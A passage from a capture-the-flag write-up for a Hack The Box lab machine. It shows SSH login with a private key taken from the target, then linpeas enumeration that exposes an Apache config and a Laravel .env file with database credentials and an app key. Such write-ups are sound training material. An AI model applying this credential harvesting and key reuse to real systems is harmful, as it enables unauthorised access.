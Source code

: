 Afterwards, we will use the .ssh/id_rsa file to gain SSH access

```
┌──(kali㉿kali)-[~/Desktop/ransom/extracted]
└─$ ssh -i .ssh/id_rsa htb@10.10.11.153
htb@ransom:~$ whoami
htb
```

However, this is not the root user yet. We would need to find a way to obtain privilege escalation to the root user.
### Privilege Escalation to root

Using the linpeas script, we are able to find another directory ```/srv/prod/public``` in the configuration fiel for Apache in /etc/apache2/sites-enabled/000-default.conf

```
lrwxrwxrwx 1 root root 35 Mar  7 12:16 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /srv/prod/public
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
            <Directory /srv/prod/public>
               Options +FollowSymlinks
               AllowOverride All
               Require all granted
            </Directory>
</VirtualHost>
```

Apart from that, we can also find the database credentials in the /srv/prod/.env files using the linpeas script

```
╔══════════╣ Analyzing Env Files (limit 70)
-rw-r--r-- 1 www-data www-data 955 Feb 17 22:54 /srv/prod/.env                                         
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:oMeOXm+U2XVBm5bJWQGv/FxgdorC8xZ6+MsL9HfU8Jc=
APP_DEBUG=true
APP_URL=http://localhost
LOG_CHANNEL=stack
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=uhc
DB_USERNAME=uhc
DB_PASSWORD=P@ssw0rd1!
```
